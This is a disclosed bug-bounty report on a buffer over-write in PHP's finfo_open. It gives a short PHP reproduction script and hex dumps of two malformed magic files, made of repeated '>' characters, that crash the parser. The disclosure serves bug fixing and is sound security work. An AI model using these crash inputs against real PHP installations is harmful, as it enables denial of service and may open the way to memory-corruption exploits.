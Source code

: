 # Buffer over-write in finfo_open with malformed magic file.

## Report Details
- **Report ID**: 476179
- **URL**: https://hackerone.com/reports/476179
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-01-07T20:34:26.499Z
- **Disclosed**: 2020-11-09T01:46:27.320Z

## Reporter
- **Username**: haquaman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
https://bugs.php.net/bug.php?id=71527

This bug causes a segfault when running with environment variable USE_ZEND_ALLOC set to 0, and also when compiled with ASAN with USE_ZEND_ALLOC set and unset.

To reproduce, run the following PHP file, with the example magic file below.

$ cat magic-open.php
<?php
$finfo = finfo_open(FILEINFO_NONE, $argv[1]);
$info = finfo_file($finfo, $argv[2]);
var_dump($info);
?>

Magic file is (used without ASAN):
$ xxd -g 1 magic.crash-noasan
0000000: 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e  >>>>>>>>>>>>>>>>
0000010: 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e     >>>>>>>>>>>>>>>

$ cat magic.crash-noasan
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>

Magic file is (used with ASAN):
$ xxd -g 1 magic.crash-asan
0000000: 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e  >>>>>>>>>>>>>>>>
0000010: 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e 3e  >>>>>>>>>>>>>>>>
0000020: 71 3e 3e 3e 3e 3e 3e 3e 3e 0a 00                 q>>>>>>>>..

$ cat magic.crash-asan
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>q>>>>>>>>
